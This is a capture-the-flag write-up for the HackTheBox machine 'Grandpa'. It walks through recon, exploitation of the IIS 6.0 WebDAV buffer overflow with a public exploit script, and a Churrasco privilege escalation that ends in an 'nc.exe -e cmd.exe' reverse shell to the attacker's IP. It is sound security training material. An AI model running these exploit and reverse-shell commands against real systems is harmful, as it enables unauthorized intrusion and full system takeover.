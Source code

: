 # Grandpa [htb](https://app.hackthebox.com/machines/13)
![grandpa-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/grasndpa-01.png)

## Recon

After adding the target to my `/etc/hosts`, I start scanning for open ports:

```bash
nmap -p- --min-rate 10000 grandpa.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/ports-02.png)

A single HTTP port. Let's perfrom service and version detection:

```bash
nmap -p 80 -sCV grandpa.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/nmap-res-03.png)

We can see that `nmap` has identified that [WebDAV](https://en.wikipedia.org/wiki/WebDAV) is enabled on this server. In short, `WebDAV` are extensions to the HTTP protocol that allows authorized users to create, change and move documents on the server. Thus, allowing the server to be viewed as a modifiable, collaborative medium instead of a read-only medium. 

In terms of a pentest, we want to try and leverage the `WebDAV` to uplaod and execute files on the server. Usually, to connect to the `WebDAV`server we need valid credentials, so if we dont have any we might need to [brute force](https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force#http-basic-auth). Other then that, we need to determine which methods are supported by the server, and which file extensions can be uploaded, etc. 

We can run tools like `davtest` and `curl` to enumerate the `WebDAV` server further. `HackTricks` has a nice [overview](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav) we can follow.

Based on the `nmap` scan we can also see that the web server is an IIS 6.0. This is relevant, because there is a buffer-overflow [exploit](https://www.exploit-db.com/exploits/41738) for IIS 6.0 servers with `WebDAV`, however I want to try and go the manual route first.

### IIS Port 80

Let's start by opening the site at `http://grandpa.htb`:

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/site-04.png)

Not much to see here. Let's run a directory and file scan using:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://grandpa.htb/FUZZ -e .aspx,.cgi,.txt,.xml,.conf,.html
```

Which brings the following result:

![images-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/images-05.png)

![private-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/private-06.png)

Trying to open the `images` directory eventually ends up with a `403` forbidden code after a couple of redirects. The `_private` directory looks more interesting though, typically `WebDAV` directories are prefixed with an underscore to try and hide them. 

Let's try to upload a file, We can do this with:

```bash
curl -i -s -k -X PUT http://grandpa.htb/_private -d @test.txt
```

This didnt work I got a `403` error. I tried different file extensions like `html`, and `png`. I tried to upload to different directories like the root of the server and `images` nothing worked. 

I decided to run `davtest` to see if it can cover something I missed:

```bash
davtest -url http://grandpa.htb/_private
```

![davtest-07}(https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/davtest-07.png)


Trying different directories does at least connect, but we cant upload or do anything on them 
![davtest-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/davtest-08.png)

I think it's safe to conclude that we cant manually exploit the `WebDAV` itself. Let's go for the buffer-overfow expliot.

### Buffer-Overflow


If we go to the [ExploitDB](https://www.exploit-db.com/exploits/41738) version, we can see that the shellcode launches `cala.exe` instead of a remote shell:

![calc-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/calc-09.png)

We dont want that. We could try to generate our own shellcode and simply replace the one in the script. 
This however is not so simple, and for me it didnt work. 

So I searched online and found [this exploit](https://github.com/danigargu/explodingcan/tree/master). It  has a clean code, and the most stars. This one also specified that the shellcode needs to be alphanumeric encoded, which is interesting. 

At first I tried to get a standard shell without a meterpreter but this didnt work. So instead I followed the instructioins on the github page and generated a meterpreter shellcode. I then setup `multi/handler` and got a shell in meterpreter using `msfconsole`.

This worls, but I want to try and avoid `metasploit` as much as possible, so I searched online for other exploits and I found [this one](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269). 

Based on the source code, we can see the expected arguments when invoking the script:

![source-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/source-10.png)

We need to specify the remote IP and port of the target, as well as our listener's. But I dont see the exploit creating a thread to catch the reverse shell so we need to do that ourselfes. 

I setup the listener with:

```bash
rlwrap nc -lnvp 443
```

And execute the exploit with:

```bash
python2 exploit.py 10.129.95.233 80 10.10.14.46 443
```

The script hangs for a few seconds, then I get a shell on my `nc`:

![shell-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/shell-11.png)

## Privilege Escalation

Immediately after landing on the machine I start hunting for quick wins. I started by looking for stored credentials with `cmdkey /list` but there are none. 

I then move on to look for user privileges with `whoami /priv`:

![privs-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/privs-12.png)

Here we can see our user has the `Impersonate` privileges enabled, which means we can try to pull of a [potato attack](https://jlajara.gitlab.io/Potatoes_Windows_Privesc). My go to for Windows servers < 2019 is [JuicyPotato](https://github.com/ohpe/juicy-potato), but this is an old Windows server:

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
``` 

![sysinfo-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/sysinfo-15.png)


So instead let's try [Churrasco](https://github.com/Re4son/Churrasco/). To pull this off we need to transfer the `Churrasco` binary over to the target along with `nc.exe`. This, I typically achive with a python server on my attack machine, and `certutil` to downlaod the files over to the target. 

However on this machine, there is an issue:

![cert-err-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/cert-err-13.png)

I know my syntax is correct, as it works on virtually any other Windows machine, but here it doens't. Searching this error online, I came to find that we have an issue with the Certificate Revocation List (CRL) being expired. Thus causing applications that need to check the revocation status of certificates issued by this CA to fail.

I tried to find a way to craete a new CRL using `certutil -CRL`, didnt work. I tried to create a new certificate database with `certutil -N -d .`, didnt work. After a few dozen minutes googling I decided to give up on the idea and try powershell instead.

This is where I encountered another issue:

![no-ps-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/no-ps-14.png)

I tried searching for `C:\\Windows\System32\WindowsPowerShell`, there is none. Powershell was intoruced with Windows server 2008, but it was addedd to Windoes server 2003, just not this one I guess. 

Instead let's setup an SMB server on my attack machine using `impacket`:

```bash
impacket-smbserver -smb2support grandpa .
```
 
Then I connect to the share and copy the files over from the target using:

```cmd
net use \\10.10.14.46\grandpa
copy \\10.10.14.46\grandpa\churrasco.exe
copy \\10.10.14.46\grandpa\nc.exe
```

Now we can see both files are on the target:

![files-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/files-15.png)

Now we can test `churrasco` by running `churrasco.exe "whoami"`:

![whoami-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/whoami-16.png)

We can see that is works, and we have command execution as the `SYSTEM`. 

So now we can setup a listener on our Kali machine with:

```bash
rlwrap nc -lnvp 8080
```

And use `nc.exe` to connect back to our machine:

```cmd
churrasco.exe "C:\\windows\Temp\nc.exe -e cmd.exe 10.10.14.46 8080"
```

Which gets us a shell as the `SYSTEM`:

![root-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/root-17.png)




